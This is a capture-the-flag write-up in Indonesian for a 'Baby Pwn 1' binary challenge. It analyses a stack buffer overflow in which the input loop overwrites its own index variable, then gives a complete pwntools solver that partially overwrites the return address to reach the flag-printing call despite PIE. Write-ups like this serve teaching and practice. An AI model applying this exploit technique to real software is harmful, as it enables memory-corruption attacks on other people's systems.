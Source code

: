# PWN
## Baby Pwn 1
`writer: dimas`
### Alat
- gdb + gef
- pwntools
- checksec
- ida64

### Recon
Pada soal kita diberikan source code dan juga binary. Pertama-tama kita coba untuk memeriksa security dari binary tersebut menggunakan checksec:
![](Pasted%20image%2020221231091251.png)

Bisa dilihat pada gambar diatas bahwa `Stack canary` di disable. Jadi kita bisa membuffer overflow program tanpa perlu kawatir dengan stack canary.

Setelah itu kita akan mencoba untuk mendisassamble binary teserbut menggunakan ida64. Di ida64 kita menemukan beberapa fungsi penting yaitu:

- Yang pertama ada fungsi flag yang berfungsi untuk membaca flag.

```cpp
__int64 flag(void)
{
  __int64 v0; // rax
  char v2[536]; // [rsp+0h] [rbp-220h] BYREF

  std::basic_ifstream<char,std::char_traits<char>>::basic_ifstream(v2, "flag.txt", 8LL);
  if ( (unsigned __int8)std::basic_ifstream<char,std::char_traits<char>>::is_open(v2) )
  {
    v0 = std::basic_ifstream<char,std::char_traits<char>>::rdbuf(v2);
    std::ostream::operator<<(&std::cout, v0);
  }
  std::basic_ifstream<char,std::char_traits<char>>::close(v2);
  putchar(10);
  return std::basic_ifstream<char,std::char_traits<char>>::~basic_ifstream(v2);
}
```

- Yang kedua ada fungsi vuln dimana vulnerability buffer overflow berada.
```cpp
int vuln(void)
{
  int result; // eax
  char v1[104]; // [rsp+0h] [rbp-70h]
  int v2; // [rsp+68h] [rbp-8h]
  int v3; // [rsp+6Ch] [rbp-4h]

  Setup();
  v3 = 0;
  logo();
  puts("Hello! welcome to TCP1P!");
  puts("What is your name?");
  do
  {
    result = getchar();
    v2 = result;
    if ( result == 10 )
      break;
    result = v3;
    v1[v3++] = v2;
  }
  while ( v3 != 121 );
  return result;
}
```

Jadi buffer overflow berada di dalam loop `do while` dimana `do while`  menerima input lebih banyak dari variable `char v1[104]` sehingga mengakibatkan buffer overflow.

Buffer overflow ini bisa mempengaruhi variable v2 dan v3 yang berada di bawahnya. Karna variable `v3` ini berfungsi untuk mengatur index pada variable `v1` kita dapat merubah variable `v3` sehingga nanti kita bisa membypass restriksi ini `while ( v3 != 121 );` dimana jika kita merubah variable `v3` menjadi lebih besar dari `121` maka kondisi tidak akan pernah terpenuhi dalam loop, sehingga kita bisa mendapatkan infinity loop dan dari situ kita bisa membuat buffer overflow ke return address untuk mengontrol return address tersebut.

### Eksploitasi
Pertama yang harus kita lakukan adalah menentukkan padding agar kita dapat meng-buffer overflow variable `v3`. Kita akan cek  lagi pseudocde pada vungsi `vuln` di bagian deklarasi variable.

```cpp
  int result; // eax
  char v1[104]; // [rsp+0h] [rbp-70h]
  int v2; // [rsp+68h] [rbp-8h]
  int v3; // [rsp+6Ch] [rbp-4h]
```

Jadi untuk menemukan padding yang pas kita perlu menghitung dari variable `char v1[104]`. Variable ini memiliki buffer sebanyak 104 byte dan setelah itu ada variable `v2` sebanyak 4 byte (kita bisa tau karna [type int](https://www.geeksforgeeks.org/data-types-in-c/) menggunakan 4 byte). Jadi dari situ kita bisa mendapatkan padding sebanyak 108 byte untuk mencapai variable `v3`:

```
v1[104] + v2[4] = 108
```

Karna pada security di binary ada `pie enable` address dari setiap fungsi akan di randomize, Kita hanya bisa merubah address terakhir dari return address untuk ke ke fungsi yang valid.

![](Pasted%20image%2020221231091251.png)

Karna yang paling dekat dengan fungsi vuln adalah fungsi main, dimana fungsi main ini ada call flag didalamnya, maka kita dapat merubah byte terakhir di return adress dengan byte dari fungsi main yang ada call flag tersebut.
```cpp
int main()  
{  
   bool showflag = false;
   vuln();  
   if (showflag){  
       flag();  <- kita ingin locat ke address ini
   }  
}
```

berikut solver yang saya gunakan untuk solve challenge tersebut.
```python
from pwn import *
import sys

BINARY = "chall"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)

x, p = init()

x.debug((
    "break *vuln+87\nc\n" # while ( v3 != 121 )
    "c\n"*56 # continue sampai v3 ter overwrite
    # "break *vuln+98\nc\n" # break point return
))

padding = b"A"*108
payload = padding
payload += p8(142) # index byte terakhir dari return address
payload += p8((exe.sym['main']+23) & 0xff) # byte terakhir dari fungsi main+23 = call flag

p.sendline(payload)

p.interactive()
```